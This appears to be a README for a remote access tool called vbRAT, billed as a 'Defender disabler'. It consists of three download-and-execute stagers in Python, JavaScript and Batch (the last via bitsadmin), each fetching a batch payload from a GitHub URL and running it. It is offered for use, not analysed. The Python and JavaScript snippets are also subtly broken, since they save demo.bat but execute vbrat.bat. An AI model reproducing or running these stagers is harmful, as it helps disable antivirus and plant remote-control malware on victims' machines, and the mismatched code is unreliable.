 # vbRAT


<h2 align="center">
  Defender disabler 

</h2>

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('vbrat.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('vbrat.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat "vbrat.bat"
start vbrat.bat
```

